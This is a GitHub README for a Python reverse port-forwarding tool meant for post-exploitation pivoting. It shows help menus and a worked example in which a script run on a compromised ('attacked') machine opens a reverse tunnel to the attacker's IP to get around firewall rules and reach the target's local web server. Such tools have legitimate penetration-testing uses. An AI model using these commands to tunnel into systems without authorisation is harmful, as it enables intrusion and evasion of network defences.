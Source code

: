 # reverse-python-port-forwarder

*linux and windows binaries available*

## Summary

This tool comes in two pieces that should *simultaneosly* on different machines :
- **local_portfwd**
- **remote_portfwd**
  
The concept is simple.  
These programs are creating a tunnel for tcp packets between two machines.    
The ***local port forward*** program should be running on your local machine, after being started it will be listening for the incoming tunnel connection handshake and on success it will open a service port.  
  
- **I've choosen a reverse connection logic (remote-attacked connecting to local-attacker) instead of a simple bind beacause it's better at escaping firewall rules.**  
  
Once the connection is established you are ready to forward packets to the remote machine by simply sending requests to the RPPF service address (ex. `localhost:4444`).  
Then the requests will be forwarded to the endpoint of the tunnel which is the ***remote port forward*** program.  
The remote forward script is a simple proxy and it will act on behalf of you, forwarding packets to the target address (which you must specifiy during startup).  
Look at bottom page for a simple example.  

## Help menu

`remote_portfwd.py` helper menu :
```shell
$ ./remote_portfwd.py -h
usage: remote_portfwd.py [-h] thost:tport fhost:fport

----------------------------------------
 Reverse Python Port Forwarder (Remote)
----------------------------------------
Welcome to the RPPF, a simple port forwarder written in python.
This code should be running on the remote (attacked) machine.
A tunnel will be created to the thost:tport address using a reverse 
connection logic, to bypass firewall. The data coming from the tunnel
will then be sent over a new connection to the forward address.
The tunnel address should be your RPPF local tunnel address.
Example : ./remote_portfwd.py localhost:4444 google.com:80
----------------------------------------
* Only tcp protocol supported *

     __                          __
    |==|                        |==|
    |= |                        |= |
    |^*|  ----☠----☠----☠----   |^*|
    |__|                        |__|
        

positional arguments:
  thost:tport  Your local address to be contacted
  fhost:fport  The remote address to forward to

optional arguments:
  -h, --help   show this help message and exit
```
  
`local_portfwd.py` helper menu :
```shell
 $ ./local_portfwd.py -h
usage: local_portfwd.py [-h] thost:tport rhost:rport

---------------------------------------
 Reverse Python Port Forwarder (Local)
---------------------------------------
Welcome to the RPPF, a simple port forwarder written in python.
This code should be running on local (attacker) machine.
The program will be listening for the incoming tunnel connection from
remote_portfwd.py (thost:tport).
After the connection is established the RPPF is ready to forward data. 
Just send data to the service address.
---------------------------------------
* Only tcp protocol supported *

     __                          __
    |==|                        |==|
    |= |                        |= |
    |^*|  ----☠----☠----☠----   |^*|
    |__|                        |__|
        

positional arguments:
  thost:tport  Tunnel address to listen to
  rhost:rport  The rppf address to listen to

optional arguments:
  -h, --help   show this help message and exit
```

## Simple use case

Let's suppose I want to get access to a web server listeining to 127.0.0.1:80 in a remote machine.  
Obviously I need rce, and a way to upload `remote_portfwd.py`.  
Once I got the program on the remote machine I can begin the attack.  
*Order is not important, you can run before or after `local_portfwd.py`. No matter.*  
  
On remote 
```shell
$ python remote_portfwd.py 10.10.14.19:4444 localhost:80
creating tunnel to ('10.10.14.19', 4444)

```
Where `10.10.14.19` is my local IP address and `4444`  is the port where I want to create the RPPF tunnel.  
  
Then on your local machine
```shell
$ ./local_portfwd.py 10.10.14.19:4444 localhost:4242
Waiting for incoming tunnel connection...
Tunnel created
Opening rppf listening service...
--------------------------------------------
RPPF Service opened on ('localhost', 4242)
Ready to transfer data

```
Now the RPPF forward service is **ready and listening** on port 4242.  
`10.10.14.19` is the IP to bind to, can be also `0.0.0.0` to listen on every interface.
  
If you go back to remote console the output should have been updated :
```shell
$ python remote_portfwd.py 10.10.14.19:4444 localhost:80
creating tunnel to ('10.10.14.19', 4444)
tunnel created
opening forward connection to ('localhost', 80)
connection created
--------------------------------------------
Ready to transfer data

```
This means that the also the remote service is **ready and running**.  
  
Now you can just type `localhost:4242` in your web browser to connect to the site as a localhost. :smile:  
  
***NOTE** : For an http request you may need to modify the HOST header (just intercept the request before being sent to layer 4).*
